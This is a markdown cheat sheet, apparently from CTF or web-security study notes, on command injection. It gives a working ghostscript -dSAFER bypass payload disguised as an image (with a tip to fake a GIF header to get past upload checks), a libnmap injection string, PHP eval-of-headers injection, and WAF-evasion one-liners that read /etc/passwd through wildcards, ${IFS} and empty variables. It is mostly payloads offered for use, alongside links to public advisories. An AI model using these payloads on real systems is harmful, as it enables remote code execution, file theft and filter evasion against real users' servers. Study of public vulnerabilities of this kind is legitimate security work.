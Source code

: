 # Command injection  
1. [ghostscript RCE](#ghostscript-rce)  
2. [Command Injection in libnmap](#command-injection-in-libnmap-<nodejs>)  
3. [Dangerous use of php functions](#dangerous-use-of-php-function)  
4. [Bypass with Uninitialized Variable in PHP](#bypass-with-uninitialized-variable-in-php)  

In CTF, we can directly cat flag with cmd injection. In real world, we can directly make a reverse shell with it.  
First, we can take a look at the power of wildcard...  
```php
// match one character
cat fla?
cat ./???sword

// match multiple character
cat f*

// bypass the limit on space character
cat${IFS}flag
cat$IFSflag

// borrow from env variable
// Windows: start from a count for b
%comspec:~a,b%
Linux: ${PATH:a:b}

// ${a} become empty which can be ignored
c${a}a''t /et``c/pa""ss${aa}wd
```

## ghostscript RCE
The sandbox `-dSAFER` of ghostscript has been bypassed! The sandbox is controlled by the `LockSafetyParams` param in the process, then `restore` of gs can overwrite the the param. Many application based on ghostscript would be influenced, such as the most famous application imageMagick. Following is the payload of POC.jpg:  
```php
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id) currentdevice putdeviceprops
```  
Here, you can also forge it as gif with `gif89` header to deceive the file upload system.  
❗️ Attention: The timing to trigger the RCE is important.  

Others from `convert xxx.jpg xxx` can trigger the RCE, someone found that `less .jpg` can also trigger it. But why?  
```php
strace -f -o trace_result.txt less xxx.jpg

// one is suspicious
execve("/bin/sh", ["sh", "-c", "/usr/bin/lesspipe.sh xxx.jpg"], [/* 10 vars */]) = 0
```  
Then we can find something in the `lesspipe.sh`, it use `identify` command of ImageMagick to output the information of jpeg.  
[ref: mail of Tavis](http://openwall.com/lists/oss-security/2018/08/21/2)  
[ref: security team of imageMagick](https://imagetragick.com/)  
[ref: PostScript语言安全研究](https://paper.seebug.org/68/#0x03-ghostscriptimagemagick)  
[ref: ImageMagick-CVE-2016-3714](http://www.zerokeeper.com/vul-analysis/ImageMagick-CVE-2016-3714.html)  
[ref: 安全客ghostscript命令执行漏洞预警](https://www.anquanke.com/post/id/157513)  
[用二進制的方式fuzzing ImageMagick漏洞](https://github.com/lcatro/Fuzzing-ImageMagick/blob/master/%E5%A6%82%E4%BD%95%E4%BD%BF%E7%94%A8Fuzzing%E6%8C%96%E6%8E%98ImageMagick%E7%9A%84%E6%BC%8F%E6%B4%9E.md)  

## Command Injection in libnmap <Nodejs>
libnmap is the third party module for nodejs to access nmap. If attacker can control the scanned range of ip, it might cause to command injection.  
```js
range:[
	"a.b.$(id)"
]
```  
A very simple vulnerability  
[Hackerone report](https://hackerone.com/reports/390865)  

## Dangerous use of php function
1. `getallheaders()`  
[PHP Manual](http://php.net/manual/en/function.getallheaders.php)  
This function can get all the http headers. Command injection can be done with `eval(getallheaders)` and code injection in headers.  
2. `get_defined_vars()`  
[PHP Manual](http://php.net/manual/en/function.get-defined-vars.php)  
Same concept, but `reset` first would be helpful.  
[More detail to find here](http://blog.1pwnch.com/ctf/websecurity/2018/11/26/Code-Breaking-Puzzles/#easy---phplimit)  

Be careful, if the return data of the function is other type instead of string (e.g. array, object). We can use `implode()` to concate all the data to a string in advance.  

## Bypass with Uninitialized Variable in PHP  
`$u` would be parsed to empty string in bash, but parsed as original string to bypass the waf  
```php
cat$u /etc$u/passwd$u
```  
[Web Application Firewall (WAF) Evasion Techniques #3](https://www.secjuice.com/web-application-firewall-waf-evasion/)
